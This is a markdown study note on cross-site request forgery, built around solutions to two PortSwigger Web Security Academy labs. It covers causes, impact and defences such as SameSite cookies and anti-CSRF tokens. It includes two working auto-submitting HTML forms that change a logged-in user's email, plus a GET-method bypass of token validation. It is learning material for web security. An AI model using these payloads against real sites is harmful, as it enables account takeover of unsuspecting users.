 # [CSRF](https://portswigger.net/web-security/csrf)

Causes and Conditions: 

- Applications rely solely on session cookies for authentication without verifying request origin
- Absence of anti-CSRF tokens or SameSite cookie attributes.
- 3 conditions: 
  - A relevant action: email change,...
  - Cookie-based session handling
  - No unpredictable request parameters: request to change password require the old one,...


Impact: 

- Unauthorized actions performed on behalf of authenticated users

- Potential account compromise, fund transfers, or data tampering

Categories: 

- 

Prevention:  

- Use SameSite=strict or SameSite=lax cookie attributes.
- Implement anti-CSRF tokens in state-changing requests.
- Verify the origin or Referer headers server-side.

Common Payloads through Labs Completion:

## - Apprentice

### [Lab 1: CSRF vulnerability with no defenses](https://portswigger.net/web-security/csrf/lab-no-defenses)

- Log in using the given cred:

![image-20250524092124689](./image/image-20250524092124689.png)

- Using function auto generate CSRF POC of Burpsuite pro: 

![image-20250524093858189](./image/image-20250524093858189.png)

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0aa9008403583938804017ea00ce00dd.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="n33r9&#64;hacker4&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

- Submit it to the exploit server: tab `body` ` and get the result of email change: 

![image-20250524094141022](./image/image-20250524094141022.png)

=> Change email successfully!

## - Practitioner

### [Lab 1: CSRF where token validation depends on request method](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-request-method)

![image-20250524102252461](./image/image-20250524102252461.png)

- Send request to repeater and change csrf parameter and observe the result: 

![image-20250524102543927](./image/image-20250524102543927.png)

- Change request method: GET

`GET /my-account/change-email?email=n33r9%40hacker3.com&csrf=n33r9`

![image-20250524105750805](./image/image-20250524105750805.png)

=> HTTP/2 302 Found

- Gen new CSRF payload:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a0c00d80307391e8053354f00840064.web-security-academy.net/my-account/change-email">
      <input type="hidden" name="email" value="n33r9&#64;hacker3&#46;com" />
      <input type="hidden" name="csrf" value="n33r9" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

 ![image-20250524110119226](./image/image-20250524110119226.png)

